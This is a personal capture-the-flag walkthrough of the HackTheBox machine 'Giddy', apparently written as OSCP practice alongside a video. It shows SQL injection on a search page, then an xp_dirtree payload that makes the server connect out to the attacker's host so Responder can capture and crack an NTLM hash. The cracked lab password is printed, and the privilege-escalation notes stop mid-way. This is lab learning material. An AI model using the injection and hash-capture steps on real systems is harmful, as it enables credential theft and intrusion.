 # Giddy Walkthrough
Name: Giddy
Date:  
Difficulty:  Medium
Description:  
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to feel mentored
Learnt:


First the video is three years old and more tools are avaliable to me than to him way back then

![faceofmadness](Screenshots/faceofmaddness.png)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```

![view-cert](Screenshots/view-cert.png)

Check the details!

Directory busting with feroxbuster:
![mvc](Screenshots/mvc-dir.png)

Went to the page /mvc/Search.aspx and insta-search for`'`:
![sqlerror](Screenshots/sql-error.png)

One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 

![sqlimap](id-sqli.png)

## Exploit

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

![catching](ncat.png)

```bash
responder -I tun0
```

![stacy](hashcapture.png)

Paused video to see if I could try pass the hash. I could not.

![cracked](cracked.png)

```
xNnWo6272k7x
```


## Foothold

![](unifivideo.png)

## PrivEsc

This directory is writable, see the 43390.txt poc.
![](icacls-unifi-video.png)
![msfail](xcopythemsfshell.png)

But..
![wd](windowsdefendstrikesagain.png)
Windows Defender removes it... 

Then I went on a research spree on C Sharp,  Undetectable C sharp Reverse Shells and the best Windows-OS VM for ethical hacking for Archive. 33:00 paused...